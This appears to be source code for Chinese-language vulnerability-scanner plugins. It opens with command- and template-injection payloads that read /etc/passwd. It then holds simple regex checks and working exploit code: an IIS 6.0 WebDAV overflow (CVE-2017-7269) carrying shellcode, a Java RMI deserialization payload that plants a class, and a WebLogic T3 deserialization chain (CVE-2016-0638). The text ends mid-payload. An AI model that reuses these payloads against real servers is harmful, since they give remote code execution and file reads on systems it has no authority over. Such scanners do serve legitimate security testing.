payloads_list.append("cat</etc/passwd")
payloads_list.append("`cat</etc/passwd`")
payloads_list.append("`cat$IFS/etc/passwd`")
payloads_list.append('''";/bin/cat</etc/passwd;"''')
payloads_list.append("10516*61501")
payloads_list.append("{{10516*61501}}")
payloads_list.append("${10516*61501}")
payloads_list.append("#{10516*61501}")
payloads_list.append("${@eval%2810516*61501%29}")
payloads_list.append("${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(\u002710516*61501\u0027).getInputStream())}")
payloads_list.append("{php}echo 10516*61501;{/php}")
payloads_list.append("${${eval(10516*61501)}}")
payloads_list.append("$%7B$%7Beval(10516*61501)%7D%7D")
payloads_list.append("<?php echo 10516*61501;?>")
payloads_list.append("<? echo 10516*61501;?>")
payloads_list.append("<SCRIPT LANGUAGE='php'>echo 10516*61501;</SCRIPT>")
payloads_list.append("<% echo 10516*61501; %>")
payloads_list.append('''${new%20java.lang.String(new%20byte[]{54,52,54,55,52,52,53,49,54})}''')
payloads_list.append('''${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat</etc/passwd').getInputStream())}''')

```

Jquery版本检测，文件上传检测,内网IP泄漏，列目录 
```python 
class Jqueryvd(BaseHttpPlugin):
    PAYLOADS = re.compile(r'1.\d.\d')

    bugname = 'jquery版本过低'
    bugrank = '低危'

    def filter(self,crawle,req,res):
        return 'jquery' in req.url \
            or 'jquery.org/license' in res.text[:100]

    def verify(self,crawle,req,res):
        '''jquery版本小于1.11则报'''

        r = self.PAYLOADS.findall(res.text[:100])
        if r:
           self.bugaddr = req.url
           self.bugreq = str(r[0])
           return True

class FileUploadPage(BaseHttpPlugin):
    PAYLOADS = re.compile(r'''<input.*?type=["']*file["'].*?>''')

    bugname = '文件上传页面'
    bugrank = '低危'

    def filter(self,crawle,req,res):
        ct = res.headers.get('content-type','')
        return "text" in ct

    def verify(self,crawle,req,res):

        r = self.PAYLOADS.findall(res.text)
        if r :
           self.bugaddr = req.url
           self.bugreq = str(r[0])
           return True

class IntranetIPleakage(BaseHttpPlugin):
    PAYLOADS = re.compile(r'((192\.168|172\.([1][6-9]|[2]\d|3[01]))(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}|10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3})')

    bugname = '内网IP泄漏'
    bugrank = '低危'

    def filter(self,crawle,req,res):
        return True

    def verify(self,crawle,req,res):
        r = self.PAYLOADS.findall(res.text)
        if r:
           self.bugaddr = req.url
           self.bugreq = '\r\n'.join(r)
           return True

class DirectoryListing(BaseHttpPlugin):
    PAYLOADS = (
        re.compile(r'<title>Index of /',re.I),
        re.compile(r'<a href="?C=N;O=D">Name</a>',re.I),
        re.compile(r'<A HREF="?M=A">Last modified</A>',re.I),
        re.compile(r'Last modified</a>',re.I),
        re.compile(r'Parent Directory</a>',re.I),
        re.compile(r'<TITLE>Folder Listing.',re.I),
        re.compile(r'<table summary="Directory Listing',re.I),
        re.compile(r'">[To Parent Directory]</a><br><br>',re.I),
        re.compile(r'&lt;dir&gt; <A HREF="/',re.I),
        re.compile(r'''<pre><A HREF="/">\[''',re.I),
    )

    bugname = '列目录漏洞'
    bugrank = '中危'

    def filter(self,crawle,req,res):
        ct = res.headers.get('content-type','')
        return ct not in ("octet-stream","image")

    def verify(self,crawle,req,res):
        for p in self.PAYLOADS:
            r = p.findall(res.text)
            if r:
                self.bugaddr = req.url
                self.bugreq = str(req)
                self.bugres = str(res.text)
                return True

```
```python 
class IIS_webdav_rce(BaseWebPlugin):
    bugname = "IIS 6.0 webdav远程代码执行漏洞"
    bugrank = "高危"
    bugnumber = "CVE-2017-7269"
    bugdesc = "IIS 6.0中存在的一个栈溢出漏洞，在IIS6.0处理PROPFIND指令的时候，由于对url的长度没有进行有效的长度控制和检查，导致执行memcpy对虚拟路径进行构造的时候，引发栈溢出，该漏洞可以导致远程代码执行。"
    bugnote = "http://www.mottoin.com/99527.html"

    def filter(self,web):
        return 'iis' in web.content or 'asp' in web.content

    def verify(self,web, user='', pwd='',timeout=10):
        try:
            pay = b'PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n'
            pay += b'If: <http://localhost/aaaaaaa'
            pay += b'\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
            pay += b'>'
            pay += b' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
            pay += b'\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
            shellcode = b'VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397N30WRJLMSSI7LNR72JPTKOXPZKQH0CR615NMNRP0NQNWNMOGP206NYKPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJOBNVO0LMLJLMKZ0HOXOY0TO0OS260ENMNRP0NQOGNMOGOB06OIMP2345RCS3RET3D3M0KLK8SRM0KPM0C0SYK5NQWP2DDK0PNP4KQBLLTKQBMDDKD2MXLOGG0JO6NQKO6LOLQQSLKRNLMP7QXOLMM18G9RJRR2R74KQBLP4K0JOL4K0LN1RXK3PHKQHQ0Q4K29MPM19CTKQ9MH9SOJQ94KNTTKKQJ6P1KOFLY1XOLMKQXGNX9PD5KFM33MKHOKSMO42UJDPXTKB8O4KQIC1V4KLL0K4K0XMLKQXSTKKTTKKQJ0CYQ4O4MTQKQK1QR90Z0QKOYPQOQOQJ4KLRJKTM1MWKOWMCBR2OQZKPPSKOYEKPA'
            pay += shellcode
            pay += b'>\r\n\r\n'
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            if "https" in web.scheme:
                sock = ssl.wrap_socket(sock)
            sock.settimeout(timeout)
            sock.connect((web.host,int(web.port)))
            sock.sendall(pay)
            data = sock.recv(80960)
            if b'HHIT CVE-2017-7269 Success' in data:
                self.bugaddr = web.url
                self.bugreq = str(pay)
                self.bugres = str(data)
                return True
        except Exception as e:
            print(e)
        finally:
            sock.close()

```

JavaRMI 反序列化代码执行 
```python 
class JavaRmiRce(BaseHostPlugin):
    bugname = "JavaRMI 反序列化代码执行"
    bugrank = "紧急"

    def filter(self,host):
        return host.port == 1099 or host.service == 'rmi'

    def verify(self,host,user='',pwd='',timeout=10):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        try:
            sock.connect((host.host,int(host.port)))
            send_packet_first = "4a524d4900024b000c31302e3130312e32322e333900000000"
            send_packet_second="50aced00057722000000000000000000000000000000000000000000000000000044154dc9d4e63bdf7400057077" \
                               "6e6564737d00000001000f6a6176612e726d692e52656d6f746570787200176a6176612e6c616e672e7265666c65" \
                               "63742e50726f7879e127da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f7265666c6563742f49" \
                               "6e766f636174696f6e48616e646c65723b7078707372003273756e2e7265666c6563742e616e6e6f746174696f6e" \
                               "2e416e6e6f746174696f6e496e766f636174696f6e48616e646c657255caf50f15cb7ea50200024c000c6d656d62" \
                               "657256616c75657374000f4c6a6176612f7574696c2f4d61703b4c0004747970657400114c6a6176612f6c616e67" \
                               "2f436c6173733b707870737200316f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d" \
                               "61702e5472616e73666f726d65644d617061773fe05df15a700300024c000e6b65795472616e73666f726d657274" \
                               "002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b" \
                               "4c001076616c75655472616e73666f726d657271007e000a707870707372003a6f72672e6170616368652e636f6d" \
                               "6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c7" \
                               "97ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f" \
                               "6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b7078707572002d5b4c6f72672e617061636865" \
                               "2e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007078" \
                               "70000000047372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f" \
                               "72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7474" \
                               "00124c6a6176612f6c616e672f4f626a6563743b707870767200186a6176612e696f2e46696c654f757470757453" \
                               "747265616d00000000000000000000007078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c" \
                               "656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce38020003" \
                               "5b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400" \
                               "124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e" \
                               "672f436c6173733b707870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000070" \
                               "787000000001757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a9902000070787000000001" \
                               "767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000070787074000e676574436f6e737472" \
                               "7563746f727571007e001d000000017671007e001d7371007e00167571007e001b00000001757200135b4c6a6176" \
                               "612e6c616e672e537472696e673badd256e7e91d7b4702000070787000000001740023633a2f77696e646f77732f" \
                               "74656d702f4572726f7242617365457865632e636c61737374000b6e6577496e7374616e63657571007e001d0000" \
                               "00017671007e001b7371007e00167571007e001b00000001757200025b42acf317f8060854e00200007078700000" \
                               "0624cafebabe0000003200650a002000350700360700370a000300380a0002003907003a0a000600350a0002003b" \
                               "0a0006003c08003d0a0006003e0a003f00400a003f00410a004200430a001f00440700450700460a001100350800" \
                               "470a001100480a0011003e0a001000490a0010003e08004a0a001a004b07004c0a001a004908004d08004e0a001f" \
                               "004f0700500700510100063c696e69743e010003282956010004436f646501000f4c696e654e756d626572546162" \
                               "6c65010009726561644279746573010029284c6a6176612f696f2f496e70757453747265616d3b294c6a6176612f" \
                               "6c616e672f537472696e673b01000d537461636b4d61705461626c6507003607003a07004c01000a457863657074" \
                               "696f6e73070052010007646f5f65786563010015284c6a6176612f6c616e672f537472696e673b29560700450700" \
                               "450100046d61696e010016285b4c6a6176612f6c616e672f537472696e673b295601000a536f7572636546696c65" \
                               "0100124572726f7242617365457865632e6a6176610c002100220100166a6176612f696f2f427566666572656452" \
                               "65616465720100196a6176612f696f2f496e70757453747265616d5265616465720c002100530c00210054010016" \
                               "6a6176612f6c616e672f537472696e674275666665720c005500560c005700580100010a0c0059005607005a0c00" \
                               "5b005c0c005d005e07005f0c006000610c002500260100136a6176612f6c616e672f457863657074696f6e010017" \
                               "6a6176612f6c616e672f537472696e674275696c646572010005383838383a0c005700620c0021002e0100043838" \
                               "38380c006300640100106a6176612f6c616e672f537472696e670100020d0a01000a636d64202f63206469720c00" \
                               "2d002e01000d4572726f7242617365457865630100106a6176612f6c616e672f4f626a6563740100136a6176612f" \
                               "696f2f494f457863657074696f6e010018284c6a6176612f696f2f496e70757453747265616d3b2956010013284c" \
                               "6a6176612f696f2f5265616465723b2956010008726561644c696e6501001428294c6a6176612f6c616e672f5374" \
                               "72696e673b010006617070656e6401002c284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e" \
                               "672f537472696e674275666665723b010008746f537472696e670100116a6176612f6c616e672f52756e74696d65" \
                               "01000a67657452756e74696d6501001528294c6a6176612f6c616e672f52756e74696d653b010004657865630100" \
                               "27284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f50726f636573733b0100116a6176" \
                               "612f6c616e672f50726f6365737301000e676574496e70757453747265616d01001728294c6a6176612f696f2f49" \
                               "6e70757453747265616d3b01002d284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f53" \
                               "7472696e674275696c6465723b010007696e6465784f66010015284c6a6176612f6c616e672f537472696e673b29" \
                               "490021001f0020000000000004000100210022000100230000001d00010001000000052ab70001b1000000010024" \
                               "00000006000100000003000900250026000200230000007b0005000500000038bb000259bb0003592ab70004b700" \
                               "054cbb000659b700074d2bb60008594ec600112c2db60009120ab6000957a7ffec2cb6000b3a041904b000000002" \
                               "00240000001a00060000000600100007001800090021000a002f000d0035000e0027000000110002fd0018070028" \
                               "070029fc001607002a002b000000040001002c0009002d002e00020023000000af0006000300000065b8000c2ab6" \
                               "000d4c2bb6000eb8000f4dbb001059bb001159b700121213b600142cb60014b60015b70016bf4c2bb600171218b6" \
                               "001902a400052bbfbb001059bb001159b700121213b60014bb001a592bb60017b7001bb60014121cb60014b60015" \
                               "b70016bf00010000002b002b0010000200240000001e0007000000130008001400100015002b0018002c001a0039" \
                               "001c003b001f00270000000c00026b07002ffc000f070030002b000000040001001000090031003200020023000" \
                               "000220001000100000006121db8001eb10000000100240000000a00020000002600050027002b00000004000100" \
                               "100001003300000002003474000577726974657571007e001d000000017671007e002e737200116a6176612e757" \
                               "4696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c" \
                               "647078703f4000000000000c7708000000100000000174000576616c756571007e003578787672001b6a6176612" \
                               "e6c616e672e616e6e6f746174696f6e2e5461726765740000000000000000000000707870"
            send_data_first=binascii.a2b_hex(send_packet_first)
            send_data_second=binascii.a2b_hex(send_packet_second)
            sock.send(send_data_first)
            recv_packet=sock.recv(1024)
            flag = recv_packet[3:-4]
            time.sleep(1)
            sock.send(send_data_second)
            packet = sock.recv(1024)
            if flag in packet:
                self.bugaddr = 'rmi://%s:%s'%(host.host,host.port)
                self.bugres = str(packet)
                return True
        except Exception as e:
            print(e)
        finally:
            sock.close()


```

Weblogic检测 
```python 
class BaseWeblogic(object):
    def filter(self,web):
        return 'weblogic' in web.content or 'servlet' in web.content or web.port == 7001

    def handshake(self,sock,server_addr):
        sock.connect(server_addr)
        data = '74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'
        sock.send(binascii.a2b_hex(data))
        time.sleep(1)
        sock.recv(1024)
        print("[*] handshake successful")

    def buildT3RequestObject(self,sock,port):
        data1 = ('000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f58'
                 '1daa4f5b90e2aebfc607499b4027973720078720178720278700000000a00000003000000000000'
                 '0006007070707070700000000a000000030000000000000006007006fe010000aced00057372001'
                 'd7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c00'
                 '0078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496'
                 'e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67'
                 '506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c00096'
                 '96d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e'
                 '646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000ace'
                 'd00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f526581'
                 '57f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657'
                 '273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c'
                 '6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6'
                 '561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b00127665727369'
                 '6f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696'
                 'e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900'
                 '056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e746'
                 '56d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e'
                 '646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000ace'
                 'd00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f526581'
                 '57f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656'
                 '572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c'
                 '696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685'
                 'b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c'
                 '2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e6'
                 '16c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371')
        data2 = ('007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696'
                 'e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769'
                 '632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec902000'
                 '84900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b7365727669'
                 '63655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e000'
                 '54c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e00057870'
                 '7702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944d'
                 'c49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e32323700'
                 '1257494e2d4147444d565155423154362e656883348cd6000000070000{0}fffffffffffffffff'
                 'fffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a'
                 '766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07').format('{:04x}'.format(port))
        data3 = '1a7727000d3234322e323134'
        data4 = '2e312e32353461863d1d0000000078'
        for d in [data1,data2,data3,data4]:
            sock.send(binascii.a2b_hex(d))
        time.sleep(2)
        print('[*] send request payload successful,recv length:%d'%(len(sock.recv(2048))))

    def sendEvilObjData(self,sock,payload):
        data = '056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
        data += payload
        data += 'fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
        data = '%s%s'%('{:08x}'.format(len(data)/2 + 4),data)
        sock.send(binascii.a2b_hex(data))
        time.sleep(2)
        sock.send(binascii.a2b_hex(data))
        res = ''
        try:
            while True:
                res += sock.recv(4096)
                time.sleep(0.1)
        except Exception as e:
            print(e)
        return res

    def verify(host,user='',pwd='',timeout=15):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        server_addr = (host.host, host.port)
        self.t3handshake(sock,server_addr)
        self.buildT3RequestObject(sock,host.port)
        res = self.sendEvilObjData(sock,self.PAYLOAD)
        pre = re.findall(self.VER_SIG, res, re.S)
        if pre:
            self.bugres = str(res)
            return True

class Weblogic_CVE_2016_0638(BaseWebPlugin,BaseWeblogic):
    bugname = "weglogic远程命令执行漏洞CVE-2016-0638"
    bugrank = "紧急"
    bugnumber = "CVE-2016-0638"

    PAYLOAD = "aced0005737200257765626c6f6769632e6a6d732e636f6d6d6f6e2e53747265616d4d657373616765496d706c6b88de4d93cbd45d0c00007872001f7765626c6f6769632e6a6d732e636f6d6d6f6e2e4d657373616765496d706c69126161d04df1420c000078707a000003f728200000000000000100000578aced00057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b0200007870000000014c0001687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707371007e00007372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001e00000002767200106a61767a0000018e612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001e7371007e00167571007e001b00000002707571007e001b00000000740006696e766f6b657571007e001e00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e001b7371007e0016757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000863616c632e6